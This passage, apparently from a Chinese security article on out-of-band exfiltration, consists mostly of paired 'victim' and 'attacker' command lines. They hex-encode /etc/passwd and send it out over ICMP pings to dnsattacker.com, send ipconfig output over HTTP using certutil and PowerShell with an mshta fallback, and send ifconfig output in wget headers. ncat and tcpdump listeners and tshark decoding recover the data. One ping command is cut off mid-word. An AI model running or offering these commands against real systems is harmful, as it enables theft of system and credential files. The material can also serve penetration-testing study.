 限制条件：需要Powershell。

**Unix**

受害者：

```bash
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 dnsattacker.com;don
```

攻击者：

```bash
sudo tcpdump  'icmp and src host 202.14.120.xx' -w icmp_file.pcap#To capture
```

提取数据：

```bash
echo "0x$(tshark -n -q -r icmp_file.pcap -T fields -e data.data | tr -d '\n' | tr -d ':')" | xxd -r -p   #Or Use Wireshark gui
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629878_5b971c76723bd.png!small)](https://image.3001.net/images/20180911/1536629878_5b971c76723bd.png)

### 4. HTTP

**Windows**

受害者：

```bash
cmd /v /c "ipconfig > temp && certutil -f -encodehex temp output.hex 12 && set /p MYVAR=<output.hex && set FINAL="http://dnsattacker.com:9000/!MYVAR!" && powershell Invoke-WebRequest !FINAL!"
```

**注：**如果PowerShell不可用，请使用“mshta !Final!”。

攻击者：

```bash
echo "0x$(ncat -lvp 9000 |grep -i get|tr -d '/' |cut -d ' ' -f2)" |xxd -r -p
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629909_5b971c951a8f7.png!small)**

**Unix**

受害者：

```bash
wget --header=evil:$(ifconfig|xxd -p -c 100000) http://dnsattacker.com:9000
```

攻击者：

```bash
echo "0x$(ncat -lvp 9000 |grep -i evil|tr -d '/' |cut -d ' ' -f2)" |xxd -r -p
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629934_5b971cae895a1.png!small)](https://image.3001.net/images/20180911/1536629934_5b971cae895a1.png)
